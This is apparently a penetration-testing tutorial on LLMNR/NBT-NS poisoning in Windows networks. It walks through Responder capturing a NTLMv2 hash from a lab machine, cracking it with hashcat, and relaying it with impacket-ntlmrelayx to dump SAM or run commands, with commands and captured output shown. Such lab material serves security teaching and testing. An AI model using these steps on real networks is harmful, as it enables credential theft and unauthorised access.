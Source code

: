 On Windows machines, the procedure will roughly be as follows:
1. The hostname file share's IP address is required.
2. The local host file (`C:\Windows\System32\Drivers\etc\hosts`{: .filepath}) will be checked for suitable records.
3. If no records are found, the machine switches to the local DNS cache, which keeps track of recently resolved names.
4. Is there no local DNS record? A query will be sent to the DNS server that has been configured.
5. If all else fails, the machine will issue a multicast query, requesting the IP address of the file share from other machines on the network.

Suppose a user mistyped a shared folder's name `\\mysharefoder\` instead of `\\mysharedfolder\`. In that case, all name resolutions will fail because the name does not exist, and the machine will send a multicast query to all devices on the network, including us running our fake SMB server. 
```console
zero@pio$ responder -I <INTERFACE>

...
[*] [NBT-NS] Poisoned answer sent to 10.10.110.17 for name WORKGROUP (service: Domain Master Browser)
[*] [NBT-NS] Poisoned answer sent to 10.10.110.17 for name WORKGROUP (service: Browser Election)
[*] [MDNS] Poisoned answer sent to 10.10.110.17   for name mysharefoder.local
[*] [LLMNR]  Poisoned answer sent to 10.10.110.17 for name mysharefoder
[*] [MDNS] Poisoned answer sent to 10.10.110.17   for name mysharefoder.local
[SMB] NTLMv2-SSP Client   : 10.10.110.17
[SMB] NTLMv2-SSP Username : WIN7BOX\demouser
[SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:997b18cc61099ba2:3CC46296B0CCFC7A231D918AE1DAE521:0101000000000000B09B51939BA6D40140C54ED46AD58E890000000002000E004E004F004D00410054004300480001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D0042003100320008003000300000000000000000000000003000004289286EDA193B087E214F3E16E2BE88FEC5D9FF73197456C9A6861FF5B5D3330000000000000000
```

These captured credentials can be cracked using hashcat or relayed to a remote host to complete the authentication and impersonate the user.
```console
zero@pio$ hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

 If we cannot crack the hash, we can potentially relay the captured hash to another machine using [impacket-ntlmrelayx](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/ntlmrelayx.py) or Responder [MultiRelay.py](https://raw.githubusercontent.com/lgandx/Responder/master/tools/MultiRelay.py). Let us see an example using **impacket-ntlmrelayx**.

First, we need to set SMB to **OFF** in our responder configuration file (`/etc/responder/Responder.conf`{: .filepath}):
```console
zero@pio$ cat /etc/responder/Responder.conf | grep 'SMB ='

SMB = Off
```

Then we execute **impacket-ntlmrelayx**. By default, impacket-ntlmrelayx will dump the SAM database, but we can execute commands by adding the option `-c`:
```console
zero@pio$ impacket-ntlmrelayx --no-http-server -smb2support -t <TARGET>
```
